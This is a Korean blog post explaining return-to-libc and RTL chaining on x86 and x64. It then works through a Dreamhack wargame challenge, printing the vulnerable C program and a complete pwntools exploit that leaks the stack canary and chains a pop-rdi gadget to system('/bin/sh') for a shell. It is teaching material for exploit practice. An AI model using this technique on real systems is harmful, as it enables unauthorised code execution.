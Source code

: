 ```yaml
---
tistoryBlogName: k0n9
tistoryTitle: RTL
tistoryVisibility: "0"
tistoryCategory: "0"
tistorySkipModal: true
tistoryPostId: "22"
tistoryPostUrl: https://k0n9.tistory.com/22
---
```

## RTL이란?

Return To Library,

기존의 rts는 스택에 shellcode를 넣고 ret변조를 통해 셸을 실행시켰다. 하지만 Nx-bit 보호기법으로 스택에서 코드가 실행되지 않는다. 이를 우회하는 것이 RTL로 RET에 Library에 있는 함수의 주소를 넣어서 실행흐름을 변경한다.

### 공격순서(0x86 기준)

1. ret에 system함수의 주소를 넣는다.
    
2. 그 후에는 system함수 이후 실행할 주소의 공간이니 아무 값으로 채운다,
    
3. system 함수의 인자값을 입력한다.

## RTL chaining

가젯을 이용하여 이전의 인자들을 정리하고 ret부분에 다시 특정 함수를 호출한다. 그렇게 연속적으로 함수를 호출하는게 RTL chaining기법이다.

### x86

x86에서의 rtl chaining은 우선 가젯을 아무거나 사용해도 된다. 어짜피 인자를 스택에 넣기 때문에 아무 가젯이나 사용한다.

## 공격순서

1. ret : 실행 함수
2. 가젯
3. 인자   
4. 실행 함수
5. 가젯   
6. 인자
7. ...


### x64

**x64에서는 6개까지 인자를 레지스터에 저장한다.**

**rdi, rsi, rdx. rcx. r8. r9**

순서대로 인자를 넣기 때문에 그에 해당하는 가젯을 찾아야 한다. 64비트는 레지스터에 인자가 있어야 하기 때문에 exploit순서가 x86과 다르다.

## 공격순서

1. ret : 가젯   
2. 인자
3. 실행할 함수   
4. 가젯
5. 인자   
6. 실행할 함수
7. …


## 예제 __ dreamhack

```C
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie
  
#include <stdio.h>
#include <unistd.h>
  
const char* binsh = "/bin/sh";
  
int main() {
  char buf[0x30];
  
  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);
  
  // Add system function to plt's entry
  system("echo 'system@plt");
  
  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);
  
  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  
  return 0;
}
```
c코드는 다음과 같다.

![](https://i.imgur.com/eLNd7Ka.png)

보호기법은 다음과 같다.
공격 방법은 이렇다.

1. 처음 입력에서 카나리의 null바이트를 덮어 카나리 릭을 한다.
2. 두 번째 입력에서 buf + canary + sfp + ret(stack alignment) + pop_rdi_gadget + binsh_add + system_add 로 익스플로잇을 한다.

익스코드는 다음과 같다.
```python
from pwn import *
  
# context.log_level = 'debug'
  
e = ELF("./rtl")
p = remote("host3.dreamhack.games", 16982)
# p = process("./rtl")
  
system = 0x4005d0
pop_rdi = 0x400853
ret_g = 0x400854
binsh = next(e.search(b"/bin/sh\x00"))
  
ca = b'a'*0x38 + b'b'
p.sendafter(b"Buf: ", ca)
p.recvuntil(b"ab")
canary = u64(b"\x00"+p.recv(7))
  
# pause()
  
ex = b'a'*0x38
ex += p64(canary)
ex += b'a'*0x8
ex += p64(ret_g)
ex += p64(pop_rdi)
ex += p64(binsh)
ex += p64(system)
  
p.sendafter(b"Buf: ", ex)
  
p.interactive()
```

![](https://i.imgur.com/XjDSMbg.png)

셸을 땄다.